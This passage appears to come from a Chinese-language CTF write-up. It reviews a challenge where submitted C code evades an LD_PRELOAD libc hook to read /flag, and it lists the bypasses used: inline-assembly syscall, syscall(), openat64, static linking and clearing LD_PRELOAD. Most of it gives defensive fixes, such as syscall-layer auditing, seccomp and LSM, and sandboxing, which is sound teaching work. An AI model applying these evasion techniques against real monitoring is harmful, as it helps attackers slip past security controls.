6. **根因仍是「用户可控代码 + 敏感资产同权限域」**：面板把用户提交的 C 源码在本机编译并以 `ctf` 身份执行，而 `/flag` 对 `ctf` 可读。hook 只是贴在 libc 这一层的滤镜，读权限本身从未收紧，编译与执行环境本身就是最大的攻击面。

### 做题方法

- **先做源码级侦察，再构造利用**：`/opt/app/app.py` 给出「临时目录 + `gcc -O0 -w` + `LD_PRELOAD` 注入」的运行方式，`/opt/edr/hook.c` 给出拦截点与判定逻辑。拿到这两份源码后，后面的每一步都是「按机制构造」，而不是「按现象猜」——这是本题与前两题最大的不同。
- **先建立干净对照，再谈绕过**：`fopen`/`open` 直读被拒（截图 02）与内联汇编成功（截图 05）构成一组对照，变量只有一个——**是否经过 libc 符号**。对照一旦干净，结论就不需要靠推断。
- **把「不改变调用层次」的旁路一次试干净**：别名、相对路径、`/proc/self/fd`、路径变形、硬链接（步骤 5）逐一实测，才能确认判定是「归一化后比对」而不是「字面量比对」，从而把注意力从「路径怎么写」转向「调用走哪一层」。
- **用矩阵探针批量取结论**：一个探针程序里排十几个入口（`probes/p5_entrypoints.c`、`p6_coverage_matrix.c`），比一条一条下发快得多，也更容易发现「没被列出的入口反而被拦」这类反直觉细节。
- **失败尝试要记成结论**：`.dynstr` 后缀合并让 `strings` 扫描漏掉 `open`、`printf("%%s")` 输出字面 `%s`、`open("/flag/")` 因 `realpath` 失败而放行但内核也打不开——这些都不是「跑错了」，而是对机制的有效刻画（步骤 5）。
- **备选方案要覆盖同一根因的不同侧面**：`syscall()`/`openat64` 是「符号没覆盖完」，清 `LD_PRELOAD`/静态链接是「注入机制被绕过」。四条备选合起来，才能说明这不是「再补一个符号」能修好的问题，而是选错了检测层。
- **注意平台判分细节**：本题 5 题首次提交即全部判对，未触发 G2 那套「`answerHistory` 只记首次判分、需整卷重提刷新」的流程；即便如此也应先复核 `answerHistory.isCorrect` 再下结论。

### 修复建议

- **不要把 libc 符号层当作安全边界**：应在系统调用层判定——auditd 对敏感文件加 `-w /flag -p r` 规则、eBPF 追 `sys_enter_openat`、LSM/AppArmor 做强制访问控制。任何在用户态函数入口做的挂钩，都可以被「换一个入口 / 直接 `syscall` / 静态链接 / 清环境变量」绕过（对应 AI 问答 1、3）。
- **环境变量不能承载安全属性**：`LD_PRELOAD`、`ld.so.preload` 只是进程启动时的加载提示，清除、静态链接、直接 syscall 都能绕开它。需要强制执行时应使用内核级手段（`seccomp` 过滤器、LSM），并让安全组件自身的存活与完整性受独立监控（防止「先关传感器再动手」）。
- **不要在本机编译执行用户提交的源码**：需要「提交代码」场景时，应在一次性沙箱/独立容器内编译执行，去掉网络与宿主文件系统访问，敏感文件不挂载进沙箱。本题的 `gcc -O0 -w` + `LD_PRELOAD` 只是加了一层滤镜，编译与执行环境本身就是攻击面（对应 AI 问答 5）。
- **收紧敏感资产权限**：`/flag` 对运行用户可读是本题成立的前提。flag、凭据等资产不应与「能执行任意代码的进程」处于同一可读域；配合只读根文件系统、最小 capability 与专用低权限用户，让这类读取在**目标不可达**而不是**检测不到**。
- **hook 源码与二进制不应可读**：`/opt/edr/hook.c` 对 `ctf` 可读等于把检测规则与覆盖缺口一并交付（截图 04）。生产环境应限制为特权组件可读（`0600`/`0700`），并避免在告警文案里泄露判定细节。
- **把「用户态 hook 被绕过」本身纳入告警**：内联汇编 `syscall`、调用 `syscall()` 通用入口、静态链接可执行文件的出现、`LD_PRELOAD` 被清空/改写，都是可疑信号；这类信号只能在内核态遥测（auditd/eBPF）里可靠获得，也应作为检测侧的重点（对应 AI 问答 6）。

原始过程记录：`.local/process/4-3-ctf-process.md`；教学问答原文：`.local/process/4-3-qa-transcript.json`；复现脚本：`.local/process/4-3-scripts/`（`probe_src.py` 提交 C 源码、`submit.py` 提交与复核判分、`ask_qa.py` + `qa-questions.json` 顺序提问、`verify_shots.py` 截图校验、`demo/*.c` 八个演示程序、`probes/*.c` 侦察探针、`panel_43.mjs`/`qa_shots_43.mjs`/`vmc_grade_43.mjs` 无头浏览器截图）。
